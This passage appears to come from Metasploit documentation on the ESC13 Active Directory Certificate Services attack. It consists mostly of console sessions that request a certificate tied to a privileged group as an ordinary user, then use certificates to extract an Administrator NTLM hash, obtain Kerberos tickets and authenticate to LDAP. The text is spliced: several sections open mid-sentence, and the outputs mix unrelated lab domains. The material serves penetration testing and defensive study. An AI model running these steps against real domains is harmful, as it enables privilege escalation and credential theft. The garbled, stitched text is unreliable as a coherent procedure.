# Exploiting ESC13
ESC13-Test template is vulenerable to ESC13 and will yield a ticket including the ESC13-Group permissions.
```
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > run
...
[+] Template: ESC13-Test
[*]   Distinguished Name: CN=ESC13-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=collalabs1,DC=local
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC13
[*]   Notes: ESC13 groups: ESC13-Group
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
[*]     * S-1-5-21-3474343397-3755413101-2031708755-513 (Domain Users)
[*]     * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[+]   Issuing CA: collalabs1-SRV-ADDS01-CA (SRV-ADDS01.collalabs1.local)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
```

certificate beyond the standard `CA`, `CERT_TEMPLATE`, target and authentication options.
```
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain COLLALABS1
SMBDomain => COLLALABS1
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA collalabs1-SRV-ADDS01-CA
CA => collalabs1-SRV-ADDS01-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC13-Test
CERT_TEMPLATE => ESC13-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate Email: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3474343397-3755413101-2031708755-10051
[*] 172.30.239.85:445 - Certificate UPN: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20240226170310_default_172.30.239.85_windows.ad.cs_917878.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

# Authenticating With A Certificate
## Authenticating To Kerberos
### Getting An NT Hash
action to `GET_HASH`.
```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_hash rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Running module against 172.30.239.85

[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_324339.bin
[*] 172.30.239.85:88 - Getting NTLM hash for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGS-Response
[*] 172.30.239.85:88 - TGS MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_031414.bin
[+] Found NTLM hash for Administrator: aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) >
```

### Getting A Kerberos Ticket
services such as HTTP, LDAP and SMB. Ticket granting tickets can be requested using the `GET_TGT` action.
```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_tgt rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230124173224_default_172.30.239.85_windows.ad.cs_287833.pfx
[*] Running module against 172.30.239.85

[*] 172.30.239.85:88 - Getting TGT for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > klist
Kerberos Cache
==============
host           principal                   sname                             issued                     status  path
----           ---------                   -----                             ------                     ------  ----
172.30.239.85  Administrator@daforest.com  krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-01-24 20:23:54 -0500  valid   /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin

msf6 auxiliary(admin/kerberos/get_ticket) >
```

## Authenticating To LDAP
* `SSL` -- must be set to `true` (`schannel` authentication is only compatible with TLS connections)
```msf
msf6 auxiliary(gather/ldap_query) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(gather/ldap_query) > set LDAP::Auth schannel
LDAP::Auth => schannel
msf6 auxiliary(gather/ldap_query) > set LDAP::CertFile /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
LDAP::CertFile => /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
msf6 auxiliary(gather/ldap_query) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/ldap_query) > enum_domain
[*] Running module against 172.30.239.85

[*] Discovering base DN automatically
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] 172.30.239.85:389 Discovered schema DN: DC=daforest,DC=com
DC=msflab DC=local
==================

 Name                       Attributes
 ----                       ----------
 lockoutduration            0:00:30:00
 lockoutthreshold           0
 maxpwdage                  42:00:00:00
 minpwdage                  1:00:00:00
 minpwdlength               7
 ms-ds-machineaccountquota  10
 name                       msflab
 objectsid                  S-1-5-21-3402587289-1488798532-3618296993

[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_query) >
```

